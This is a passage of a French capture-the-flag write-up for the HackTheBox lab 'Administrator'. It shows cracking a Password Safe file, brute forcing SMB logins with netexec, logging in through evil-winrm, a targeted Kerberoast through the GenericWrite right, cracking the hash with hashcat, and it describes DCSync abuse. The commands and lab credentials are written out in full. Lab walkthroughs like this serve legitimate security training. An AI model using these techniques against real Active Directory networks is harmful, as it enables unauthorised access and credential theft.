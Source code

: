 Nous récupérons le mot de passe `tekieromucho`.

![psafe3 password cracked](/images/HTB-Administrator/hashcat_pwd.png)

Si vous ne l'avez pas encore, téléchargez l'application avec `sudo apt install passwordsafe` et utilisez le fichier ainsi que le mot de passe récupéré pour accéder aux mots de passe.

A l'intérieur du fichier, nous trouvons plusieurs identifiants.

![psafe3 credentials](/images/HTB-Administrator/psafe3_creds.png)
 
Après avoir créé une liste d'utilisateurs et une liste de mots de passe, nous pouvons effectuer une attaque par force brute afin de trouver les informations d'identification valides.

```
netexec smb 10.129.61.195 -u users.txt -p pwds.txt --continue-on-success
```

![Emily valid password](/images/HTB-Administrator/emily_valid.png)

Les identifiants valides sont `emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb`. Nous nous connectons avec `evil-winrm` et récupérons le drapeau utilisateur.

```
evil-winrm -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -i administrator.htb
```

![user flag](/images/HTB-Administrator/user_flag.png)

## Elévation de Privilèges

Emily a la permission `GenericWrite` sur `Ethan`.

![GenericWrite permission](/images/HTB-Administrator/emily_GenericWrite.png)

`GenericWrite` peut être utilisé abusivement pour lancer une attaque Kerberost ciblée.

```
sudo ntpdate {TARGET_IP}

python3 targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```

![Ethan hash](/images/HTB-Administrator/targeted_kerberoast.png)

Nous craquons le hachage avec hashcat et récupérons le mot de passe `limpbizkit`.

```
hashcat ethan_hash.txt /usr/share/wordlists/rockyou.txt
```

![Ethan password cracked](/images/HTB-Administrator/ethan_pwd.png)

`Ethan` a la permission `DCSync` sur le domaine.

> `DCSync` permet à un utilisateur ou à un groupe de simuler le comportement d'un contrôleur de domaine, en particulier pour répliquer les données de mot de passe, y compris les hachages NTLM, les secrets Kerberos (krbtgt), et même les informations d'identification du contrôleur de domaine.
